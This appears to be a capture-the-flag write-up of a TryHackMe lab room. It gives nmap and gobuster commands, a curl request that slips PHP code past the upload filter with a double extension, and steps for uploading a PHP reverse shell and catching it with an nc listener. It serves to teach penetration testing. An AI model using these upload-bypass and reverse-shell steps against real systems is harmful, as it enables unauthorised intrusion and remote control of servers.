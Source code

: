 ![image](https://github.com/lucthienphong1120/TryHackMe-CTF/assets/90561566/ca4ec894-5f1d-4a7f-9dac-97e5e477f1a1)

## Day 24: The Trial Before Christmas

scan the target

```
nmap -sS -A -T4 10.10.50.209
```

![image](https://github.com/lucthienphong1120/TryHackMe-CTF/assets/90561566/0393d988-cfb2-4555-9453-7eb4f00dd2ab)

gobuster the webpage

```
gobuster dir -u http://10.10.50.209:65000/ -x .php -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -t 40
```

![image](https://github.com/lucthienphong1120/TryHackMe-CTF/assets/90561566/d49c9f1e-6230-45c0-9d8a-00d288322280)

scan the folder

```
gobuster dir -u http://10.10.50.209:65000/ -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -t 40
```

![image](https://github.com/lucthienphong1120/TryHackMe-CTF/assets/90561566/62482e01-6577-4677-95de-382d9d2aea47)

bypass the client-side filter using curl because there is no JS support in curl

bypass server-side filter with a double extension to upload some php code

```
curl -X POST http://10.10.50.209:65000/api/upload/ -H "Content-Type: application/json" --data '{"name":"test.png.php","file":"<?php phpinfo(); ?>"}'
```

![image](https://github.com/lucthienphong1120/TryHackMe-CTF/assets/90561566/c9d6bb2e-84d3-40fc-b14d-1ef46bccc8bc)

use burp suite to intercept file and upload a php reverse shell

Ctrl+F5 and drop filter.js

![image](https://github.com/lucthienphong1120/TryHackMe-CTF/assets/90561566/da7df0d4-23d6-46e1-888f-a493bffc7d2d)

upload reverse.png.php (`cp /usr/share/webshells/php/php-reverse-shell.php .` and rename it)

![image](https://github.com/lucthienphong1120/TryHackMe-CTF/assets/90561566/ca86fd83-0b87-4471-b0de-6b832700cb17)

set up listener

```
nc -vlnp 1234
```

then go to `http://10.10.50.209:65000/grid/reverse.png.php`
